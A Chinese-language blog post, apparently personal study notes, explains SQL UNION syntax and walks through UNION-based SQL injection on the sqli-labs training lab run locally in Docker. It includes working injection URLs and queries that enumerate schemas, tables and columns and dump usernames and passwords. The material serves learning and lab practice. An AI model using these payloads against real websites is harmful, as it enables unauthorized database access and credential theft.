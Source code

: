 ```yaml
---
layout: post
title: "SQL注入学习02"
date: 2018-06-16
category: web安全
tags: web安全 sql注入
---
```


## union查询注入

### union介绍

SQL UNION 操作符  
用于合并两个或多个SELECT语句的结果集。  
注意：  
SELECT语句必须拥有**相同数量**的列。  
列也必须拥有**相似的数据类型**。  
每条SELECT语句中列的**顺序必须相同**。  

默认情况，UNION操作符选取不同的值，允许重复的值，使用UNION ALL。  

	SELECT column_name(s) FROM table_name1
	UNION
	SELECT column_name(s) FROM table_name2

	SELECT column_name(s) FROM table_name1
	UNION ALL
	SELECT column_name(s) FROM table_name2

### union查询注入方法

#### UNION 注入应用场景  

前提：  
1.只要UNION连接的几个查询的字段数一样且列的数据类型转换没有问题，就可以查询出结果；
2.注入点页面有回显；

注意点：  
1.只有最后一个SELECT子句允许有ORDER BY；
2.只有最后一个SELECT子句允许有LIMIT；

	mysql> select * from users order by id union select 1,2,3;
	错误 orderby 要在最后一个子句后面

	mysql> select * from users limit 0,1 union select;
	错误 limit 要在最后一个子句后面

#### UNION注入过程-根据Sqli-labs Less1-4学习

tips：order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据  

1. order by 确定列数
2. 观察页面返回，选取可以显示数据的位置，进行下一步的注入
3. 读库信息
4. 读表信息 
5. 读字段
6. 读数据


---



	docker run -dt --name sqli -p 90:80 --rm acgpiano/sqli-labs 
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql -uroot -p
	show databases;
	use security;

	1. select * from users order by 4; // order by 判断多少列 从1～3 报错了确定有4列

	2. select * from users where id=1 union select 1,2,3;
	select * from users where id=-1 union select 1,(select version()),3;

	3. select * from users where id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata);

	4. select * from users where id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'); // 当前库可以换成database() ''不识别可以换成十六进制0x

	5. select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');

	6. select * from users where id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users);


浏览器访问：  
http://127.0.0.1:90/Less-1/  

	http://127.0.0.1:90/Less-1/?id=1'
	http://127.0.0.1:90/Less-1/?id=1' order by 1 --+ // 二分法试
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,3 --+
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(version())--+ // user() database()

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+

















